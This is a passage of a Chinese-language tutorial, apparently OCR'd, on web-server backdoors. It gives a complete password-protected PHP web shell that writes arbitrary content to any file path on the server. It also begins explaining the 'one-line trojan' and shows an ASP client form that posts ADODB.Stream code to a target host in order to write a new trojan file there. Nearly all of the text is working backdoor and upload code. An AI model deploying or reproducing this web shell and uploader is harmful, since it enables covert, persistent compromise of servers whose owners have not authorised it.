 **有密码验证的PHP小马：**

```php
<html>
<head>
<title><?=$_SERVER['SERVER_NAME']?>的后门小马</title>
</head>
<?php
error_reporting(0);//不显示错误信息
$password="xiaoxian";
if ($_GET[pass]==$password){//判断输入的密码是否正确
    if ($_POST){
        $path=$_POST['path'];//从表单获取的上传的路径
        $data=$_POST['data'];//从表单获取的上传的内容
        $file=fopen($path,"w+");
        if(fwrite($file,$data))
            echo "Succeeded!";
        else
            echo "Failed!";
        fclose($file);
    }
    else{
        echo "xiaoma.php with password by xiaoxian";
    }
?><br><br>

服务器的IP地址和域名为:<?=$_SERVER['SERVER_NAME']?>(<?=@gethostbyname($_SERVER['SERVER_NAME'])?>)<br>
当前目录路径:
<?php echo $_SERVER['DOCUMENT_ROOT'].$_SERVER['PHP_SELF'];?></br>
<form action="" method="post">
保存路径:<input name="path" type="text" /><br>
保存内容:<br><textarea name="data" cols="90" rows="50"></textarea></br>
<input name="" type="submit" value="Submit"/>
</form>

<?php
 }else{ //输入密码错误时则一直在输入密码的界面
?>

<form action="" method="GET">
密码:<input type="password" name="pass" id="pass">
<input type="submit" name="login" value="Login in" /></form>
<?php } ?>
```

## 0x01 一句话木马实现原理和编写

**客户端：**

```text
<form action=http://10.10.10.144/1.asp method=post>
<textarea name=xiaoxian cols=120 rows=10 width=45>
set IP=server.CreateObject("Adodb.Stream")//建立流对象
IP.Open
IP.Type=2//以文本方式 
IP.CharSet="gb2312"//字体标准
IP.writetext request("newvalue")
IP.SaveToFile server.mappath("new.asp"),2//将木马内容以覆盖文件的方式写入new.asp，2就是已覆盖的方式
IP.Close
set IP=nothing//释放对象
response.redirect "new.asp"//转向new.asp
</textarea>
<textarea name=newvalue cols=120 rows=10 width=45>这里填生成木马的代码
</textarea><br><center><br>
<input type=submit value=提交>
```